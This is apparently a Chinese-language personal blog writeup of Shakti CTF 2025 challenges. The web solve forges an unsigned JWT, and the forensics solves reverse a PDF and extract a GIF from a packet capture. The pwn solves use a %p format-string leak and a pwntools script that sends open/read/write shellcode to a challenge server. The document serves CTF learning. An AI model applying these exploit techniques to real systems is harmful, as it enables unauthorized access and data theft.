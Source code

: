 ```yaml
---
title: Shakti CTF 2025
published: 2025-07-26
updated: 2025-07-27
description: "Shakti CTF 2025 writeup"
image: ""
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: false
---
```


這次還是 eating 大電神帶我打

131 th / 554

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726231045.png)

總覺得越來越不會寫 osint 了，半題沒寫出來 (╥﹏╥)

---

# Shakti CTF 2025

## web

### Hooman

從題目給的 source code 來看，沒有驗證 JWT 簽章，所以可以用線上工具生成一個 `are_you_hooman` 欄位是 true 的 JWT token 就可以拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030552.png)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030750.png)

隨便在首頁輸入一個名字，然後把 cookie 裡面的 JWT token 換成剛剛生成 `are_you_hooman` 為 true 的 token 就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030455.png)

```txt
shaktictf{now_uk_jwts_hoomannnnn}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030509.png)

## forensics

### Binary Reflection

拿到的 pdf 看起來像被倒過來(第一行變成最後一行、第二行變倒數第二行...，依此類推)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725205953.png)

先把 pdf 內容倒過來

```bash
tac corrupt.pdf > fixed.pdf
```

然後再用線上工具去看 pdf 裡面有沒有藏東西，就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210554.png)

```txt
shaktictf{pdf_pr3tty_d4m4g3d_f0rm4t}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210526.png)

### Glitch In Frame

封包裡面有文字以及一張 gif

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210952.png)

不知道要怎麼正確的把 gif 拿出來，直接把內容複製出來

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213504.png)

貼到 cyberchef ，output 是一張 gif，可以看出來是在播放的 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213515.png)

用線上工具把 gif 放慢，就能得到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213801.png)

```txt
shaktictf{v1sU4l_d@t4_xf3ltr4t10n_thru_pkt5_and_fr4m3s_is_n0t_a_myth_just_v3ry_und3rr4ted}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725214542.png)

## PWN

### Secret Mission

這題的第一個反應是用 `%p` 去看 stack 上有甚麼

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013334.png)

```txt
AAAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

在本地測試一下發現只要用很多 `%p` 就可以在 print 出來的東西裡面發現 flag，所以 nc 過去輸入一樣的 payload

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013259.png)

整個貼到 cyberchef 上面就能拿到很像 flag 的東西

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013316.png)

把這段字串貼到 Multi Decoder，再稍微排序一下就得到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013020.png)

```txt
shaktictf{th3_eXtr@ct3d_@bilitie5_v@n1sh_but_th3_fl@g_r3m@1ns}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013235.png)

### Seashells

用 ghidra 看程式碼，首先會讀取最大 0x500 (1280 bytes) 的輸入到 local_518，然後使用 mmap() 建立一塊 可讀、可寫、可執行的記憶體區段（RWX），並將輸入複製到該區段，再把這段記憶體區段當作函式來呼叫，(\*\_\_dest)(); 直接跳入 shellcode 執行

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023602.png)

`seccomp_initialisation()` 裡面有允許的 syscall，例如`open`、`read`、`write` 等少數幾個

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023641.png)

讓 chatgpt 生 script 然後再調整檔名

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = asm('''
    xor rax, rax
    lea rdi, [rip + filename]
    xor rsi, rsi
    mov rax, 2          /* sys_open */
    syscall

    mov rdi, rax        /* fd */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 0          /* sys_read */
    syscall

    mov rdi, 1          /* stdout */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 1          /* sys_write */
    syscall

    mov rax, 60         /* sys_exit */
    xor rdi, rdi
    syscall

filename:
    .asciz "flag.txt"
buf:
    .space 100
''')

def main():
    p = remote("43.205.113.100", 8855)

    prompt = p.recvuntil(b'>>')
    print(prompt.decode())

    p.send(shellcode.ljust(0x500, b'\x00'))

    flag = p.recvrepeat(timeout=3)
    print("[*] Flag output:\n", flag.decode())

    p.close()

if __name__ == "__main__":
    main()
```

成功拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023516.png)

```txt
shaktictf{u_g0t_wh@t_u_w15h3d__th3_s3@sh311_f1@g}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023316.png)

---

分享一下很酷的東西，如果 eating 大大沒有提示我的話我可能這輩子都找不到這次的 welcome flag 了

不確定甚麼原理，但是在 discord 裡面，這一段符號後面的內容除了把整份文字複製下來才可以看到，並且送出訊息後不會通知

```txt
  ||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​|| _ _ _ _ _
```

應該是整到很多人，太好玩了，到比賽結束前還有人在文字頻道 /flag

eating 能找到肯定也是天才
